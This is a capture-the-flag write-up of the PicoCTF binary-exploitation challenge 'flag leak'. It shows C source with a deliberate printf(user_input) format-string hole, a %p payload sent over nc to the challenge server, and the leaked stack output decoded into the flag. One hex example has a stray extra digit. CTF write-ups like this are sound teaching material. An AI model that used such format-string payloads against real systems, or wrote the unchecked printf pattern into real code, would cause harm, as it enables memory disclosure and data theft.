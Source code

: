 # PicoCTF - flag leak

## Challenge Overview
**Title:** flag leak  
**Category:** Binary Exploitation  
**Difficulty:** Medium  
**Files Provided:** vuln.c, vuln

## Description
Story telling class 1/2

Additional details will be available after launching your challenge instance.

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```

## Analysis
In the code we find the classic format string vulnerability
```c
scanf("%127s", story);
printf("Here's a story - \n");
printf(story);
```
Above it we see that the flag sits in a local buffer
```c
char flag[BUFSIZE];
...
readflag(flag, FLAGSIZE);
```
So we can utilize the format string attack to read the flag of the stack.  
To do so, I will enter as my input a bunch of `%p` which grabs a value of the stack and prints it as pointer.  
The flag will start with `picoCTF` with `70 69 63 6F 43 54 46` as its hex representation.  
We will use this to locate the flag in the output.
```
$ nc saturn.picoctf.net 62772
Tell me a story and then I'll tell you one >> AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's a story - 
AAAA0xff953cf00xff953d100x80493460x414141410x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x70257025(nil)0xf4c8e0000x80483380xf4c52d200xf4ad7ab00x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x395f6b630x303666350x7d3731360xfbad20000x44c68900(nil)0xf4c8e9900x804c0000x8049410(nil)
```

We find the start of the flag `0x6f636970` in the output.  
We grab the values until `0x7d373136` since the next byte (leas significant byte of the next value) is the NULL terminator.  
Since each word (4 bytes) is stored in Little Endian format we have to reverse each byte in every word.  
For example:
0x6f6369700 -> 0x7069636f

Once we do that, we convert them to ASCII characters using an online tool and get our flag

## Solution
- Enter `AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p`
- Find `0x6f636970` in the output and copy until `0x7d373136`
- For each word, reverse the bytes
- Convert to ASCII string

### Execution Example:
```
$ nc saturn.picoctf.net 62772
Tell me a story and then I'll tell you one >> AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's a story - 
AAAA0xff953cf00xff953d100x80493460x414141410x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x70257025(nil)0xf4c8e0000x80483380xf4c52d200xf4ad7ab0"COPY"0x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x395f6b630x303666350x7d373136"END COPY"0xfbad20000x44c68900(nil)0xf4c8e9900x804c0000x8049410(nil)
```